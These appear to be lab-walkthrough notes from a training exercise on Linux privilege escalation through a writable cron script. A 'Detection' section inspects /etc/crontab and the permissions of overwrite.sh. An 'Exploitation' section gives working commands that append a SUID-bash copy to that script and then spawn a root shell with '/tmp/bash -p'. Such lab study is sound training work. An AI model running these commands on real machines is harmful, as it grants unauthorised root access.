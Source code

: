 **Detection**

Linux VM

1. In command prompt type: 
   
```
cat /etc/crontab
```

![[Pasted image 20240602233509.png]]


2. From the output, notice the script “overwrite.sh”

3. In command prompt type: 
   
```
ls -l /usr/local/bin/overwrite.sh
```

![[Pasted image 20240602233524.png]]


4. From the output, notice the file permissions.

**Exploitation**

Linux VM

1. In command prompt type:

```
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' >> /usr/local/bin/overwrite.sh
```

2. Wait 1 minute for the Bash script to execute.

3. In command prompt type: 
   
```
/tmp/bash -p
```

4. In command prompt type: 
   
```
id
```

![[Pasted image 20240602233638.png]]


Answer the questions below

Click 'Completed' once you have successfully elevated the machine
